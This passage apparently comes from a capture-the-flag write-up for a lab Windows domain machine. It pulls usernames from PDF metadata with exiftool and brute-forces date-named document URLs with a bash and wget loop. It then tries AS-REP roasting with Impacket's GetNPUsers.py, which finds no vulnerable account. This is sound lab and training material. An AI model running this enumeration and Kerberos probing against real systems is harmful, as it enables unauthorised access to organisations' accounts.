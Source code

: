http://10.10.10.248/documents/

download both files and pass them through exiftool to check for metadata, and we found a couple of users names.
```zsh
exiftool 2020-01-01-upload.pdf
ExifTool Version Number         : 12.57
File Name                       : 2020-01-01-upload.pdf
Directory                       : .
File Size                       : 27 kB
File Modification Date/Time     : 2021:04:01 19:00:00+02:00
File Access Date/Time           : 2023:05:08 07:46:44+02:00
File Inode Change Date/Time     : 2023:05:08 07:46:44+02:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.5
Linearized                      : No
Page Count                      : 1
Creator                         : William.Lee

exiftool 2020-12-15-upload.pdf
ExifTool Version Number         : 12.57
File Name                       : 2020-12-15-upload.pdf
Directory                       : .
File Size                       : 27 kB
File Modification Date/Time     : 2021:04:01 19:00:00+02:00
File Access Date/Time           : 2023:05:08 07:46:54+02:00
File Inode Change Date/Time     : 2023:05:08 07:46:54+02:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.5
Linearized                      : No
Page Count                      : 1
Creator                         : Jose.Williams
```
One thing that we notice is that the documents have a pattern, so maybe its possible to find other documents with the same pattern and download them, find the metadata and create a list of users from that. To create the pattern we will use bash. Each for i,j,k will create a iteration of the numnbers for the year,month, day and then place them inside a variable, the variables will be called inside the webpage address. Each done; is necessary to close the i,j,k loops, then we add the xargs to place it line by line. -P 20 will set the max-processors we want (to be as fast as possible) and we want to do a wget to download all (if found).
```zsh
for i in {2020..2022}; do for j in {01..12}; do for k in {01..31}; do echo "http://10.10.10.248/documents/$i-$j-$k-upload.pdf"; done; done; done | xargs -n 1 -P 20 wget
```
now that we have all the documents we want to extract the users from the metadata. We will grep the line creator from the exiftool output, then we will ask with awk to print the last field from the line, then we will apply a sort to sort them in alphabetical way and -u (unique) so it doesnt show the names more than once if they repeat. we can count them if we add wc -l at the end
```zsh
exiftool *.pdf | grep "Creator" | awk 'NF{print $NF}' | sort -u | wc -l

exiftool *.pdf | grep "Creator" | awk 'NF{print $NF}' | sort -u > users.txt 
```
no user has it set so we cannot do a AS-REP roast attack. 
```zsh
GetNPUsers.py -no-pass -usersfile users.txt intelligence.htb/
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User Anita.Roberts doesn't have UF_DONT_REQUIRE_PREAUTH set
```